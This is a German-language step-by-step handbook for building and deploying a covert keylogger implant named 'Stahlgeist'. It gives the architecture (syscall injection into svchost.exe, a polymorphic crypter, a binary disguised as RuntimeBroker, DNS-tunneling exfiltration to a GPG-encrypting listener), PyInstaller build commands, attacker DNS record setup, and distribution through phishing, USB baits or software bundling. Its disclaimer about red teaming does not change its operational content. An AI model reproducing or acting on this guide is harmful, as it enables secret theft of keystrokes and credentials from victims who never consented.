 # Handbuch zur Erstellung eines unauffälligen Überwachungswerkzeugs

**Version 4.0 "Stahlgeist"**

---

## !! WICHTIGER HINWEIS UND ETHISCHE WARNUNG !!

Dieses Dokument beschreibt die Erstellung eines hochentwickelten Software-Werkzeugs zu **ausschließlich akademischen, forschenden und defensiven Zwecken ("Red Teaming")**. Die hier beschriebenen Techniken sind fortgeschritten und können erheblichen Schaden anrichten, wenn sie missbraucht werden.

Die unbefugte Installation dieser Software auf einem System, das Ihnen nicht gehört oder für das Sie keine ausdrückliche, schriftliche Genehmigung zum Testen haben, ist **illegal** und wird in den meisten Rechtsordnungen streng bestraft.

Der Autor und der Ersteller dieses Dokuments übernehmen **keinerlei Haftung** für den Missbrauch der hierin enthaltenen Informationen. Handeln Sie verantwortungsbewusst und ethisch.

---

## 1. Architektur-Überblick

Das System besteht aus zwei Hauptkomponenten: dem **Implantat** (Client) und dem **Lauschposten** (Server).

*   **Das Implantat (`FinalPackage_v4.exe`):**
    *   Eine einzelne, polymorphe .exe-Datei.
    *   Verwendet einen getarnten Injektor, um einen Keylogger via **direkter Syscalls** in einen legitimen Systemprozess (z.B. `svchost.exe`) zu injizieren.
    *   Der Keylogger zeichnet Tastatureingaben auf.
    *   Die gesammelten Daten werden verschleiert und mit einem **Jitter** (zufälliger Verzögerung) über **DNS-Tunneling** an den Lauschposten gesendet.
    *   Die Kommunikation ist Einweg (Client -> Server).

*   **Der Lauschposten (`listener.py`):**
    *   Ein passiver DNS-Sniffer, der auf einem kontrollierten Server läuft.
    *   Er fängt die DNS-Anfragen des Implantats ab.
    *   Er extrahiert die Daten, **verschlüsselt sie sofort mit GPG** und speichert sie in einer sicheren Log-Datei.
    *   Die gesammelten Daten können nur offline mit einem privaten GPG-Schlüssel entschlüsselt werden.

---

## 2. Voraussetzungen

### 2.1. Entwicklungs-PC (Windows)

*   **Python 3.x:** [python.org](https://www.python.org/downloads/)
*   **PyInstaller:** `pip install pyinstaller`
*   **PyCryptodome:** `pip install pycryptodome`
*   **DNSPython:** `pip install dnspython`

### 2.2. Lauschposten-Server (Linux, z.B. Debian/Ubuntu VPS)

*   **Python 3.x:** `sudo apt-get install python3 python3-pip`
*   **GnuPG:** `sudo apt-get install gnupg`
*   **Scapy:** `pip3 install scapy`
*   **python-gnupg:** `pip3 install python-gnupg`
*   Eine registrierte **Domain** und die Möglichkeit, deren DNS-Records zu bearbeiten.

### 2.3. Sicherer Offline-PC (zur Entschlüsselung)

*   Eine GPG-Software (z.B. `Gpg4win` für Windows oder `gpg` auf Linux).

---

## 3. Teil 1: Die Waffe schmieden (Client-Seite)

Dieser Prozess erzeugt die finale `FinalPackage_v4.exe`.

### Schritt 1.1: Den Keylogger konfigurieren (`keylogger.py`)

1.  Öffnen Sie die Datei `keylogger.py`.
2.  **Konfigurieren Sie Ihre Kontrolldomain:**
    *   Kodieren Sie Ihre Domain (z.B. `logs.meine-geheime-domain.net`) in Base64. Unter Linux: `echo -n "logs.meine-geheime-domain.net" | base64`. Unter Windows können Sie einen Online-Encoder verwenden.
    *   Ersetzen Sie den Wert der Variable `ENCODED_CONTROL_DOMAIN` durch Ihren Base64-String.

### Schritt 1.2: Die Payload kompilieren

Führen Sie in der Kommandozeile den folgenden Befehl aus, um den Keylogger in eine .exe zu kompilieren.

```bash
pyinstaller --noconsole --onefile --name "RuntimeBroker" keylogger.py
```

Im `dist`-Verzeichnis finden Sie nun die `RuntimeBroker.exe`.

### Schritt 1.3: Den polymorphen Injektor erstellen

Dieses Skript verschlüsselt die `RuntimeBroker.exe` und generiert einen einzigartigen Injektor.

1.  Stellen Sie sicher, dass die `_injector_syscall.py` und die `crypter.py` im Hauptverzeichnis liegen.
2.  Führen Sie den Krypter aus:
    ```bash
    python crypter.py
    ```
3.  Dieses Skript erzeugt eine neue Datei: `injector_crypted.py`. Diese Datei enthält nun die verschlüsselte Payload und den einzigartigen AES-Schlüssel.

### Schritt 1.4: Die finale Waffe kompilieren

Kompilieren Sie den soeben erstellten, einzigartigen Injektor.

```bash
pyinstaller --noconsole --onefile --name "FinalPackage_v4" injector_crypted.py
```

**Ergebnis:** Die Datei `dist\FinalPackage_v4.exe` ist das fertige Implantat. Sie ist polymorph und bereit für den Einsatz.

---

## 4. Teil 2: Den Lauschposten einrichten (Server-Seite)

### Schritt 2.1: GPG-Schlüsselpaar generieren

Führen Sie dies auf Ihrem **sicheren Offline-PC** aus.

1.  **Schlüssel generieren:**
    ```bash
    gpg --full-generate-key
    ```
    Wählen Sie RSA/RSA, 4096 Bit, und vergeben Sie eine sichere Passphrase.

2.  **Öffentlichen Schlüssel exportieren:**
    *   Finden Sie Ihre Key-ID: `gpg --list-keys`
    *   Exportieren Sie den Schlüssel: `gpg --armor --export IHRE_KEY_ID > public.key`

### Schritt 2.2: Server vorbereiten und konfigurieren

1.  Verbinden Sie sich mit Ihrer Linux-VPS.
2.  Installieren Sie alle unter 2.2 genannten Pakete.
3.  Erstellen Sie ein Verzeichnis für den Lauschposten, z.B. `/opt/listener`.
4.  Übertragen Sie die `listener.py`-Datei und Ihre soeben erstellte `public.key`-Datei in dieses Verzeichnis.
5.  Öffnen Sie `listener.py` und passen Sie die Variable `CONTROL_DOMAIN` an die Domain an, die Sie in Schritt 1.1 verwendet haben.

### Schritt 2.3: DNS-Konfiguration

Konfigurieren Sie die DNS-Records Ihrer Domain bei Ihrem Registrar.

*   **A-Record:** Erstellen Sie einen A-Record, der eine Subdomain (z.B. `ns1.meine-geheime-domain.net`) auf die IP-Adresse Ihres Lauschposten-Servers zeigt.
*   **NS-Record:** Erstellen Sie einen NS-Record, der Ihre Kontrolldomain (z.B. `logs.meine-geheime-domain.net`) auf die soeben erstellte Subdomain (`ns1.meine-geheime-domain.net`) verweist.

*Es kann einige Zeit dauern, bis diese DNS-Änderungen weltweit propagiert sind.*

### Schritt 2.4: Lauschposten starten

Führen Sie im Verzeichnis `/opt/listener` auf Ihrem Server den folgenden Befehl aus:

```bash
sudo python3 listener.py
```

Der Server ist nun aktiv und lauscht. Eingehende Daten werden in `exfiltrated_data.log.gpg` verschlüsselt gespeichert.

---

## 5. Teil 3: Einsatz und Datenabruf

### Schritt 5.1: Infiltration

Verbreiten Sie die `FinalPackage_v4.exe` über einen geeigneten Vektor (z.B. gezieltes Phishing, USB-Köder, Software-Bündelung) auf dem Zielsystem.

### Schritt 5.2: Daten entschlüsseln

1.  Übertragen Sie die `exfiltrated_data.log.gpg` von Ihrem Lauschposten-Server auf Ihren sicheren Offline-PC.
2.  Entschlüsseln Sie die Datei im Terminal:
    ```bash
    gpg --decrypt exfiltrated_data.log.gpg
    ```
3.  Geben Sie Ihre GPG-Passphrase ein. Die dekodierten Log-Einträge werden angezeigt.

---
**ENDE DES DOKUMENTS**
--- 